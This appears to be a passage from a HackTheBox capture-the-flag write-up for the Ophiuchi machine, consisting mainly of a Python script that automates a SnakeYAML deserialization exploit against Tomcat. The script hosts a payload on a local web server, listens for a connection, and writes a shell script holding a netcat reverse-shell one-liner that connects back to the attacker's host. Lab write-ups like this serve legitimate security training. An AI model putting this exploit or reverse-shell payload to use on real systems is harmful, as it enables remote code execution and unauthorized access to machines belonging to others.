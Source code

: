 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2009:30:22.png)

```py
#!/usr/bin/python3
# https://github.com/artsploit/yaml-payload
# https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858
# Author: 0x4rt3mis
# HackTheBox - Ophiuchi - Auto deserelization exploit YAML - tomcat shell

import argparse
import requests
import sys
import os
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to create the shell payload to be downloaded
def createShellPayload(lhost,lport):
    print("[+] Let's create our shell payload !! [+]")
    payload = "#!/bin/sh\n"
    payload += "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" %(lhost,lport)
    h = open("shell.sh", "w")
    h.write(payload)
    h.close()
```